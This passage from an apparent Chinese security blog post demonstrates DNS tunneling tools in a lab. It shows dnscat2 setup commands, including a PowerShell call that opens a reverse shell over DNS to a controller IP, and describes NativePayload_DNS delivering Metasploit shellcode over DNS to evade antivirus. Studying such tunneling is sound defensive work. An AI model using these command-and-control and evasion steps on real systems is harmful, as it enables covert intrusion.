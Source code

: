 选几个算是比较有代表性的工具来说明一下。

### DNSCAT2

DNSCAT2的控制端使用的是Ruby，被控端使用编译好的exe文件，后来网上也有Powershell版本的dnscat。安装：

```
git clone https://github.com/iagox86/dnscat2.git
```

然后ruby dnscat2.rb domain_name运行，这个domain_name需要能够被解析到，否则就不行，我这里本地实验所以把被控端的DNS地址改成了控制端的IP，否则被控端解析不到test域名。

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image001.png)

然后再被控端执行powershell脚本dnscat2.ps1

```powershell
Start-Dnscat2 -Domain test -DnsServer 192.168.144.130
```

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image002.png)

然后可以看到dnscat2这边已经反弹回了一个session 1

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image003.png)

使用shell命令进行

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image004.png)

通过抓包可以看到全部使用DNS协议进行数据通信，并且会随机采用三种不同类型的查询方式进行传输内容。

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image005.png)

DNSCAT还有一些其他的使用方式，具体不再说明。

### NativePayload_DNS

NativePayload_DNS不是利用DNS隧道来进行命令控制上传文件，而是利用DNS隧道来传输shellcode，也就是分离免杀，躲避杀软的静态检测。

地址：https://github.com/DamonMohammadbagher/NativePayload_DNS

这里作者提供的是c#的源代码，需要自己生成exe文件，我用的是

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image006.png)

使用：

首先将MSF生成的shellcode制作成IP+地址的格式

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image007.png)

使用dnsspoof创建DNS服务器，并使用MSF开启监听。

![img](由APT34 Glimpse工具引申出的DNS隧道问题.assets/clip_image008.png)
